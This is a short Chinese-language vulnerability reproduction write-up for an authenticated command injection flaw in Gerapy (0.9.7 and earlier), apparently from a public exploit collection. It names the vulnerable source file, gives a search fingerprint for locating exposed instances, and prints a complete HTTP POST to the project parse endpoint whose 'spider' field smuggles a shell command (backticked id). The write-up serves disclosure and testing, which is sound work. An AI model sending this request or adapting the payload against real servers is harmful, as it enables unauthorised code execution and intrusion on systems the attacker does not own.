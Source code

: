 # Gerapy parse 后台远程命令执行漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的方法存在任意命令执行，攻击者登录后台后发送特定的请求包即可利用漏洞

## 漏洞影响

```
Gerapy <= 0.9.7
```

## 网络测绘

```
title="Gerapy"
```

## 漏洞复现

登录页面

![image-20220524145144051](./images/202205241451094.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![](./images/202205241451220.png)

构造请求包测试命令执行

```
POST /api/project/1/parse HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 18

{"spider":";`id`"}
```

![](./images/202205241452592.png)